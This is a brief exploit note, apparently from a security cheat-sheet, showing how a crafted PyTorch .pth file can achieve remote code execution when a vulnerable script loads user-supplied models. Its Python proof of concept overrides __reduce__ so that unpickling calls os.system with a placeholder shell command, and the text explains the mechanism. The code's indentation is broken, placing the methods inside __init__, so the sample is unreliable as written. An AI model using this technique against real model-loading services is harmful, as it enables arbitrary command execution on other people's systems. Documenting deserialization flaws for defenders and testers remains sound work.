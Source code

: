 # Overview
If a model is parsed through a *pytorch* script, then one might be able to create a malicious model which can lead to **RCE**.

## Requirements
- The vulnerable script loads the model provided by the end-user
# Exploitation

```python
import torch
import torch.nn as nn
import os

class YourModel(nn.Module):

	def __init__(self):
		super(YourModel, self).__init__()
		self.dense = nn.Linear(10, 1)
		def forward(self, file):
		return self.dense(file)
		
		def __reduce__(self):
			cmd = "SHELL CODE HERE"
			return os.system, (cmd,)

model = YourModel()
torch.save(model, "file.pth")
```

By overwriting the `__reduce__` method, we can inject shell code and it will be executed whenever the vulnerable
script will try to load the module.

  

## Longer explanation
The `__reduce__` method returns either a string or a tuple which tells the script how to reconstruct the object when unpickling.

Usually, the tuple consists of:
- Callable (name of the class, function). In this case it's the `os.system` function.
- Arguments to be passed to the callable. Shell code in this case.

When the model is being parsed, the parsers will execute the callable with the arguments provided.